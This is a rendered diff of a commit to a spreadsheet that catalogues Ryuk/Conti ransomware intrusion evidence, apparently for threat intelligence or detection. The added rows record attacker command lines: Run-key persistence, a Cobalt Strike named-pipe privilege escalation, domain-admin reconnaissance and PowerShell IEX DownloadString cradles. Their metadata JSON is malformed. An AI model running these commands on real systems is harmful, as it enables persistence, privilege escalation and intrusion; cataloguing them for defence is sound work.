

Before and after one commit to harveywargo2/h2w-delta, an Excel workbook: delta2/lib_e/osi_ransom/conti_ryuk.xlsx, sheet sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; table styles not drawn; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
evidence updates & sheet refactors

```diff
--- a/delta2/lib_e/osi_ransom/conti_ryuk.xlsx (sheet sheet1)
+++ b/delta2/lib_e/osi_ransom/conti_ryuk.xlsx (sheet sheet1)
+sheet tab: Sheet2
-D1: Local Accounts Discovery
+D1: evidence
+row 434: conti-eid0433 |  | file_path | C:\Users\USER\Downloads\ResizeFormToFit.exe |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 435: conti-eid0434 |  | object | {"object": "file_create", "initiating_file_path": "c:\Users\user\Downloads\somthing.exe", "file_path": "c:\users\user\Appdata\local\temp\M1E1626.exe"} |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 436: conti-eid0435 |  | cmdline | rundll32.exe C:\Users\USER\AppData\Local\Temp\BA6b.tmp.dll, StartW |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 437: conti-eid0436 |  | cmdline | cmd.exe /c reg.exe add HKCU\\Software\Microsoft\Windows\CurrentVersion\Run /f /v T4QJ4U39BI1 /t REG_SZ /d " "C:\Users\User\Appdata\Local\Temp\M1E1626.exe\ "U3wtv" $amp; start "H" "C:\Users\user\Appdata\Local\Temp\M1E1626.exe" U3WTV3 |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 438: conti-eid0437 |  | cmdline | cmd.exe /c echo a3fed5b3a32 > \\.\pipe\3406c2 | The use of the Cobalt Strike’s piped privilege escalation (Get-System) was used several times during the intrusion. | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 439: conti-eid0438 | nltest-pid | cmdline | cmd.exe /c nltest /domain_trusts /all_trusts |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 440: conti-eid0439 | netclt-pid | cmdline | C:\Windows\system32\cmd.exe /C net group "enterprise admins" /domain |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 441: conti-eid0440 | netclt-pid | cmdline | C:\Windows\system32\cmd.exe /C net group "domain admins" /domain |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 442: conti-eid0441 | pshell-pid | cmdline | IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:35806/'); Find-LocalAdminAccess |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
+row 443: conti-eid0442 | pshell-pid | cmdline | IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:35585/'); Get-NetComputer -ping -operatingsystem *server* |  | {"date": "2021-01": "https://thedfirreport.com/2021/01/31/bazar-no-ryuk/", "tags": ["ryuk"]}
```
Also changed, not shown: 105 added rows elsewhere in this sheet, delta2/lib_e/index.xlsx, delta2/lib_p/dpid_hscript.xlsx, 3 other files.
